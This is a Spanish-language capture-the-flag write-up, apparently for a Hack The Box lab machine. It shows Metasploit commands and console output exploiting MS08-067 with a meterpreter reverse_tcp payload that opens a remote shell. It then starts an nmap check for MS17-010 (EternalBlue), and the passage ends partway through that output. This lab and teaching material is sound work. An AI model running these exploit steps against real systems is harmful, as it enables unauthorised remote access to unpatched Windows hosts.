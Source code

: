 * Se elege la vulnerabilidad **MS08-067**.
* Se elige el payload, cuando no **Mmeterpreter**.
* Se configura el RHOST.
* Se configura el LHOST.
* Se corre el exploit.


```console
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.7:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.4:1028) at 2020-07-29 15:01:20 -0300

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > shell
Process 948 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
```
---


### **Sin Metasploit**

Para el camino sin **Metasploit** se puede aprovechar la vulnerabilidad **Eternal Blue** que fue descubierta en 2017. AL igual que con MS08-067 también existe un script de nmap para chequear si es vulnerable:

> **``nmap --script smb-vuln-ms17-010 -p 445 10.10.10.4 -Pn``**

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-29 19:00 -03
Nmap scan report for 10.10.10.4
Host is up (0.25s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
```
